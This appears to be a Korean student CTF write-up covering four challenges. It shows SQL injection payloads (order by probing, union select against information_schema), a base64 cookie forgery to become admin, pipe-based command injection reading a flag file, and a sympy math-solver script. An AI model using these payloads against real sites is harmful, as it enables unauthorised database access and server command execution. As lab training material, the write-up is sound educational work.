 고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> #### 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> #### 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> #### 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

+ ### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

#### 위 사진과 같이 and가 먹히는걸 확인할 수 있다.

+ ### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

#### 위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> #### no=3 and 3 order by 1
> 
> #### no=3 and 3 order by 2
> 
> #### no=3 and 3 order by 3 여기서 부터 오류

#### 따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> #### no=3 union select 1,info from information_schema.processlist order by 1

#### 쿼리 출력을 이용하여 테이블명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> #### no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

#### contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
#### (order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![flag 알아내기!](./선린의털(5).PNG)

> #### no=3 union select 1, group_concat(content) from contents order by 1

#### 이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> #### sunrin 으로 로그인하여 f12로 쿠키 확인 
> > #### username값 확인 (base64 인코딩 되어있음)
> >> #### admin (base64로 인코딩)해서 username 값에 넣기

### 문제 풀이

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

#### 개발자 도구로 username 변수 값 확인

#### base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

#### admin을 base64로 인코딩하여 username 변수에 대입

#### 새로고침 -> clear

### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> #### 이 문제와 비슷한 문제를 본적이 있음
> > #### 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> #### 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> #### 아무 값 | ls

#### | 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> #### 아무 값 | cat flag 파일 이름

### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> #### nc로 접속해보니 일반적인 방정식 문제였다.
> > #### 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

#### 위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

#### 계수 입력하면 풀어주는 코드

```python
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}